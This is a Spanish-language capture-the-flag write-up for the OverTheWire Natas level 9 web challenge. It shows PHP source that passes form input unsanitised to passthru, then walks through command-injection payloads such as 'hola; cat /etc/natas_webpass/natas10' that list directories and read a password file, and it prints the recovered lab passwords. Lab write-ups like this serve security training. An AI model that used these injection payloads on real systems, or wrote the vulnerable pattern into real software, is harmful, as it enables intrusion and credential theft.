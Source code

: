 #Natas Level 8 → Level 9

Username: natas9

URL:      http://natas9.natas.labs.overthewire.org

##Write Up Iker

Abrimos un navegador y nos conectamos a la página: 

- **URL        : http://natas9.natas.labs.overthewire.org** 
- **Usuario    : natas9**
- **Contraseña : W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl**

La contraseña la hemos sacado del nivel anterior.

Entramos a la página web y observamos que tenemos un **formulario** en el que nos pide que pongamos un **texto** en algún sitio para que lo muestre en el parámetro **output**

Lo primero que hacemos es abrir el **código fuente** y miramos que es lo que hace

```html
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>

Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
````

Observamos que recoge el valor que hemos introducido y si no está vacio ejecuta el comando:

```php
 passthru("grep -i $key dictionary.txt");
```

El comando **passthru** en **PHP** es muy parecido al comando **exec()** ya que ejecuta un programa externo y muestra la salida en bruto.

En este caso con el valor que hemos introducido anteriormente **$key** realiza un **grep -i** al fichero de texto **dictionary.txt**

Probablemente esté ahí la contraseña del siguiente nivel. Tenemos que conseguir que nos devuelva todo el contenido del fichero.

Ejecutamos el siguiente comando **'^'** para que nos devuelva todo el contenido y el comando **grep** quede de esta manera

```php
grep -i '^' dictionary.txt
```

El comando **'^'** indica una nueva linea por lo que si el fichero tiene nueva linea nos devolverá el valor. Podríamos haber utilizado el valor **''** pero en este caso nos pedían no introducir una **$key** vacia

```html
Output:

African
Africans
Allah
Allah's
American
Americanism
...
zucchini's
zucchinis
Ã©clair
Ã©clair's
Ã©clairs
```

Observamos que no aparece ahí la contraseña :cry: 

Hemos comentado que el programa recoge el valor del input y lo ejecuta como si fuera un **exec()**. 

¿Podremos hacer una injección de código?

Vamos a ver el comando que tenemos y como lo podríamos modificar para que nos muestre lo que sea.

```php
 passthru("grep -i $key dictionary.txt");
```

Si introducimos como input **$key** lo siguiente funcionará?

**hola; ls -l** 

```php
Output:
-rw-r----- 1 natas9 natas9 460878 Jun 25 12:18 dictionary.txt
```

Ou yeah! :sunglasses: No valida el input y ejecuta lo que le pongamos, así que nos ponemos manos a la obra para encontrar la contraseña por el directorio.

Vamos probando a cambiar de directorios y que vaya mostrando el contenido del mismo:

```php
hola; ls -l; cd ..;
```

Vamos jugando con los párametros y viendo los resultados que nos muestra hasta que llegamos a un directorio interesante

```php
/etc/natas_webpass
```

Nosotros necesitamos la password del siguiente nivel **natas10** por lo que vamos al directorio **natas10**

```php
/etc/natas_webpass/natas10
```

Montamos el comando:

```php
hola; echo /etc/natas_webpass/natas10
```

Nos devuelve el siguiente **Output**

```html
Output:
/etc/natas_webpass/natas10 dictionary.txt
```

Vamos a ver el contenido de ese fichero **dictionary.txt**

```php
hola; cat /etc/natas_webpass/natas10
```

Esta vez nos devuelve todo el contenido del fichero **dictionary.txt** con un contenido adicional

```php
Output:
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

African
Africans
Allah
Allah's
American
...
```

Nos devulevel tambien la contraseña del siguiente nivel :smile:

**FLAG** = {nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu}



